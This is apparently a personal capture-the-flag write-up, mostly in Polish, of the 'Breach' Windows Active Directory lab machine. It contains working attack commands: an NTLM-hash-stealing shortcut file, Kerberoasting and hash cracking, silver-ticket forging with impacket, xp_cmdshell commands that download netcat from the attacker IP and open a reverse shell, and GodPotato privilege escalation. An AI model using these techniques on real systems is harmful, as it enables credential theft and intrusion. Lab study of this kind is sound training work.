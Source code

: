 # Breach
Windows, Medium, created by **xct**

![breach_slide](https://github.com/user-attachments/assets/d3ba0a90-294a-4f8f-985a-fdcb98134eaf)

```
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-28 20:32:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=BREACHDC.breach.vl
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49907/tcp open  msrpc         Microsoft Windows RPC

```
```
dig @10.10.100.171 breach.vl any
dig @10.10.100.171 breach.vl axrf 
```
- nic ciekawego

```
enum4linux -u anonymous -a 10.10.100.171
enum4linux  -a 10.10.100.171
enum4linux -u guest -a 10.10.100.171
```

![{CD6EF018-BA6E-4B86-8DB9-BC259797566A}](https://github.com/user-attachments/assets/74bf33db-8fb4-4e1b-9d7d-9fb747b978ec)

![{942E308C-25DE-45F7-9EBA-007AB1554DF5}](https://github.com/user-attachments/assets/ff6afa0c-ef49-454d-8a04-1cf88e10d8e0)

![{DB2E06CF-0CCA-48D7-8BE3-644C3052DE30}](https://github.com/user-attachments/assets/05b3371d-9728-4f2b-b240-7fcdf52fa8eb)

ale za to dostaliśmy 3 username'y :D

```
mask ""
recurse
prompt
mget *
```

z `Users` trochę więcej

![{4F23DF53-A5C3-47F6-9077-B5F747FBE363}](https://github.com/user-attachments/assets/b491cce1-e183-454f-bfa4-b96d44073c41)

This is interesting for me (yeah maybe too much ctfs)

![{F1F0A729-9805-458C-8E99-462B03BECFDC}](https://github.com/user-attachments/assets/e26ead42-7abe-44c4-9c9c-a764b0f9179f)

![{2E617D97-9E8E-4BD4-B0EA-61829A6263BC}](https://github.com/user-attachments/assets/62978a73-097d-4335-8796-3b0e200df6e5)

W sumie kilka minut posiedziałem i nic nie znalazłem

Ale dobra, bo ja płynę, a tutaj wszystko pewnie jest logiczne. Jak mamy WRITE na share to znaczy, że tam pewnie ktoś wchodzi.

włączamy `sudo responder -i tun0` i szukamy payloadu

nr 1
```
[InternetShortcut]
URL=http://10.8.4.124
IconIndex=0
IconFile=\\10.8.4.124\leak\leak.ico
```

dobra podwóch mi się odechciało. użyję `https://github.com/Greenwolf/ntlm_theft.git`

![{DF49B923-FB14-44D3-AA85-0E5D5A91DE04}](https://github.com/user-attachments/assets/099d8350-2a3f-4892-bbf2-916d1e9cee09)

i znowu sztuczka z masyowym przesyłaniem

![{53EEC5AC-E898-4C3E-B5C7-DF659BD67ADF}](https://github.com/user-attachments/assets/29523174-45e9-446f-967f-135f06aa4133)

- nic po 2 minutach. Odnoszę wrażenie, że folder o nazwie `transfer` może mieć tą nazwę nie bez powodu xd

![{6DB7DC6E-8AF9-4C8C-AE8A-C945EE9F26CF}](https://github.com/user-attachments/assets/76b53357-0650-47c9-89f8-47ea85b39578)

yes..

![{DBF9EDD0-BF6D-46C2-BA1A-7A13FE512CF8}](https://github.com/user-attachments/assets/638cd22b-2004-4de3-9ab6-f818845302c6)

a to mnie zaskoczyli

okey my bad...

![{48299F14-D958-4CE6-B1DD-7780683C6E7C}](https://github.com/user-attachments/assets/e1843f12-aad9-4e11-a82d-6f46091e2733)

after correction john cracked it in 00sek

![{C938CBDA-424C-4E0C-82F4-A37FAA14667C}](https://github.com/user-attachments/assets/4547518c-a868-4c3a-8ff1-726a32f6f65d)

![{09740161-3FE9-4F20-BE79-C0E71EA2CA7C}](https://github.com/user-attachments/assets/b0864eac-3608-4452-add7-1ad5c0fb69a0)

mamy jakiś pliczek
- local.txt to flaga

- 
![{21D09F77-729F-469C-9654-4DE622DCA38C}](https://github.com/user-attachments/assets/2e1558fa-8c14-435d-8fc8-9b87a36f0c71)

we also have access to anoter users but their directories are empty.

![{E562EC31-A68C-4CC5-95B8-384A53BB8015}](https://github.com/user-attachments/assets/1948165f-d412-4f57-9807-f84b9029fa4e)

o kerberoassting

John znowu złamał w 00sek

```
john hash2 -w=~/SHARED/lists/rockyou.txt
```

user nazywa się `svc_mssql`, ale nie pamiętam, żeby port 1433 był otwarty.

a to nmap mnie oszukał za pierwszym :/

![{BC3932F2-795B-4B13-808D-2ABF30881858}](https://github.com/user-attachments/assets/c43a3d98-c4f1-47d7-8169-e78f817e03f1)

oj myślałem, że się uda od ręki.

![{1A1E0EDE-A9F5-45CA-B6CB-BA229FEBB82E}](https://github.com/user-attachments/assets/46515624-2a1b-439f-aa80-9f491094beff)

jestesmy na koncie guest `SQL (BREACH\svc_mssql  guest@master)`

wydaje mi się, że tutaj jest rozwiąznanie
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#on-linux

![{84969452-81DA-4727-9AC8-CE0997F8ADB8}](https://github.com/user-attachments/assets/a2891ee2-bbd8-49ac-9dcc-ab2cac5b97d6)

to po kolei. bierzemy bloodhounda
```
bloodhound-python -c ALL -u svc_mssql -p '<password>' -d breach.vl -dc BREACHDC.breach.vl -ns 10.10.119.55
```

zaczynamy od domainsid

![{117C2178-50C8-4385-AEAF-FDB69FF67BFB}](https://github.com/user-attachments/assets/46baeaa4-311f-4d34-8922-b4956023715c)

```
S-1-5-21-2330692793-3312915120-706255856
```

i przerabiamy hasło na hash.

```
impacket-ticketer -nthash 6996C<heeh>A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -dc-ip 10.10.119.55 -spn mssql/breachdc.breach.vl -domain breach.vl Administrator
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient -k -k breachdc.breach.vl -target-ip 10.10.119.55 
```

w końcu działa

![{2B49E6F7-3252-4D46-8BB5-29F09DF167D3}](https://github.com/user-attachments/assets/866d7e06-56cc-48d6-9143-56b270025928)

zróbmy jakiegoś rev shella, żeby wygodniej było

whoami /all
```
Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeMachineAccountPrivilege     Add workstations to domain                Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   

```

w sumie wygląda jak eskalacja od ręki ziemniakiem `SeImpersonatePrivilege`.

zrobię jeszcze tylko jakiegoś ludzkiego rev shella

```
xp_cmdshell mkdir C:\Temp
xp_cmdshell dir C:\Temp
xp_cmdshell powershell -c "curl http://10.8.4.124/nc64.exe -o C:\Temp\nc.exe"
xp_cmdshell C:\Temp\nc.exe -e cmd 10.8.4.124 9001
```


ajjj plik jest usuwany

co ciekawe wziąłem sobie gotowego ziemniaka i go nie wywala.
```
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe

xp_cmdshell powershell -c "curl http://10.8.4.124/GodPotato-NET4.exe -o C:\Temp\GodPotato-NET4.exe"
```

o działa

```
xp_cmdshell C:\Temp\GodPotato-NET4.exe -cmd "cmd /c whoami"
```
![{A46257F6-DA5C-4B8B-88BD-47976E496927}](https://github.com/user-attachments/assets/4cd31243-0371-4de6-93b1-a9a8911454e0)

```
xp_cmdshell C:\Temp\GodPotato-NET4.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
```
